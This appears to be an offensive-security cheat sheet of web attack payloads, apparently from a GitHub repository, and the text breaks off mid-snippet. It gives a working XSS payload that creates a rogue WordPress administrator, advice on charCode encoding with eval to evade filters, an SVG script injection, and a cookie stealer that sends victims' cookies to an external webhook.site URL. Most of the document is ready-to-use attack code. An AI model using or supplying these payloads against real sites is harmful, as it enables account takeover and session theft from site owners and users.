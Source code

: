 # 💥 Code & Exploits CheatSheet

### Online Resources:
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [PayloadPlayground](https://payloadplayground.com/)
- [revshells](https://www.revshells.com/)

## 🕸Web Attack Payloads
### XSS
- [Hakluke weaponized XSS payloads](https://github.com/hakluke/weaponised-XSS-payloads)


- if **secure** enabled then cookies are sent through encrypted traffic
- if **httponly** means javascript can't access cookies
- if we can't access cookies then we can try to perform any malcious actions on behalf of our victim user like adding new user for us in the wordpress
[jscompress](https://jscompress.com/)
### Test Characters
```javascript
< > ' " { } ;   // if any symbol comes unfiltered
```

#### Create New Admin on WordPress
- [**Reference:** Craft XSS Payload to create new admin user in Wordpress](https://shift8web.ca/craft-xss-payload-create-admin-user-in-wordpress-user/)

```javascript
var ajaxRequest = new XMLHttpRequest(),
    requestURL = "/wp-admin/user-new.php",
    nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, !1), ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText),
    nonce = nonceMatch[1],
    params = "action=createuser&_wpnonce_create-user=" + nonce + "&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";
(ajaxRequest = new XMLHttpRequest()).open("POST", requestURL, !0), ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"), ajaxRequest.send(params);
```

- Minify the code first then encode it to charCode decimal to avoid badchar issue
- [cyberchef (toDecimal)](https://cyberchef.io/#recipe=To_Decimal('Comma',false))
- Then deliver the below payload

```html
<script>eval(String.fromCharCode(118,97,114,32,97,....))</script>
```
#### XSS through SVG
```xml
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
      alert(0x539);
   </script>
</svg>
```
#### Cookie Stealer
```html
<html>
	<body>
		<!-- Hello world! -->
		<script type="text/javascript">
			document.location='https://webhook.site/106ea26d-f0b2-4d07-961a-e2129e035a84?c='+encodeURIComponent(btoa(document.cookie));
```